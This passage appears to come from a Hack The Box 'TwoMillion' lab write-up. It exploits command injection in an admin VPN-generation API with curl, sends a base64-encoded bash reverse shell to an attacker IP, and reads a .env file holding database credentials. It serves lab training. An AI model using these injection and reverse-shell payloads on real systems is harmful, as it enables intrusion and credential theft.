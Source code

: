 username of the user that the VPN will be generated for, so let's attempt to input a random username.
After sending the above command we see that a VPN configuration file was generated for user test and
was printed out to us. If this VPN is being generated via the exec or system PHP function and there is
insufficient filtering in place - which is possible as this is an administrative only function - it might be
possible to inject malicious code in the username field and gain command execution on the remote system.
Let's test this assumption by injecting the command ;id; after the username:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl  -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"username" : "hacker;id;"}'   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The command is successful and we gain command execution. Let's start a [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener to catch a shell:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...

```

We can then get a shell with the following payload:

```bash
bash -i >& /dev/tcp/10.10.14.116/1337 0>&1
```

We encode the payload in Base64 and add it to the following command:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl  -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"username" : "hacker;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTYvMTMzNyAwPiYx= | base64 -d | bash;"}' 

```
# Lateral Movement - Privilege Escalation
## www-data to Admin

Enumeration of the web directory reveals a file called .env which contains database credentials for a user
called `admin`:

```bash
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
